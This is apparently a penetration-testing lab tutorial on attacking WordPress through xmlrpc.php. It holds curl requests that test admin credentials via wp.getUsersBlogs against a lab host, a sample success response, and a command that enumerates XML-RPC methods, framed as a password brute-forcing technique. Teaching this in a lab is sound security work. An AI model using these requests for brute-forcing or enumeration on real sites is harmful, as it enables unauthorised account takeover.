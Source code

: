 # Login
Once we are armed with a list of valid users, we can mount a password brute-forcing attack to attempt to gain access to the WordPress backend. This attack can be performed via the login page or the `xmlrpc.php` page.

If our POST request against `xmlrpc.php` contains valid credentials, we will receive the following output:
#### cURL - POST Request
```bash
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://94.237.59.38:43959/xmlrpc.php
```
```shell-session
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><struct>
  <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
  <member><name>url</name><value><string>http://blog.inlanefreight.com/</string></value></member>
  <member><name>blogid</name><value><string>1</string></value></member>
  <member><name>blogName</name><value><string>Inlanefreight</string></value></member>
  <member><name>xmlrpc</name><value><string>http://blog.inlanefreight.com/xmlrpc.php</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```
- If the credentials are not valid, we will receive a `403 faultCode` error.
## xmlrpc attack
There is a method named `listMethods` that returns a list of available methods, therefore, we need to invoke it on the spawned target machine and use `grep` to filter out the method names, then at last use `wc`, to attain a total of 80 possible method calls:
```shell
curl -s -X POST -d "<methodCall><methodName>system.listMethods</methodName></methodCall>" http://STMIP:STMPO/xmlrpc.php | grep string | wc -l
```